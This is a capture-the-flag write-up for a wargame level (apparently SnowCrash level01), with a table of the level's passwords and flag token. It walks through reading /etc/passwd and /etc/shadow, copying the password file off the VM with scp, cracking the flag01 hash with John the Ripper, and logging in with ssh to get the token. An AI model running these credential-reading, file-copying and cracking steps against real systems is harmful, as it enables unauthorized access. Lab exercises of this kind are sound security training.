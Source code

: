 # Level01 - Flag01

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|         |                             |
| ------- | --------------------------- |
| level01 | `x24ti5gi3x0ol2eh4esiuxias`                   |
| flag01  | `abcdefg`                   |
| token   | `f2av5il02puano7naaf6adaaf` |

## Steps to resolve on VM

1. Find files owned by the user `flag01`

```bash
find / -user flag00 2>/dev/null
# Nothing returned
```

2. We will then try to check the file /etc/shadow & /etc/passwd who handle passwords

```bash
cat /etc/shadow
> cat: /etc/shadow: Permission denied

cat /etc/passwd
# This one is accessible and gives use a big list concerning passwords

cat /etc/passwd | grep flag01
> flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
# We can notice in the 'flag01' line that there is an hashed password,
# in opposite to the other passwords who are shadowed with "x"
```

3. Use John the Ripper external hacking tool to decode this password. (with a docker container)

```bash
# First launch the docker container which will use "kali-script.sh' to run the john hacking tool
docker run -e SNOW_HOST=$SNOW_HOST -it -v $PWD/$SCRIPT:/$SCRIPT --rm kalilinux/kali-rolling bash kali_script.sh

# After installing the dependencies, we copy the /etc/passwd file
apt-get update && apt-get install -y openssh-client && apt-get install -y john
scp -q -o "StrictHostKeyChecking no" -P $SNOW_PORT $SNOW_USER@$SNOW_HOST:$PASSWORD_PATH ./

# And we apply john hacking tool on it and show it
john passwd
john --show passwd
> flag01 password is : abcdefg
```

4. Now we can connect to 'flag01' and use 'getflag' to get the token

```bash
ssh -t -q $FLAG_LEVEL@$SNOW_HOST -p $SNOW_PORT "getflag"
> Check flag.Here is your token : f2av5il02puano7naaf6adaaf
```

---

## Sources

### Shell

- [SCP explanations](https://linuxize.com/post/how-to-use-scp-command-to-securely-transfer-files/#:~:text=%3A%2Fremote%2Fdirectory-,Copy%20a%20Remote%20File%20to%20a%20Local%20System%20using%20the,local%20location%20as%20the%20destination.&text=If%20you%20haven't%20set,to%20enter%20the%20user%20password.)
- [SCP auto accept RSA Key Fingerprint](https://serverfault.com/questions/638600/auto-accept-rsa-key-fingerprint-from-command-line)

### Docker

- [Docker run bash script from host, then remove container](https://serverfault.com/questions/806812/docker-run-bash-script-then-remove-container)

### John the ripper

- [John The ripper explanations](https://null-byte.wonderhowto.com/how-to/hack-like-pro-crack-user-passwords-linux-system-0147164/)

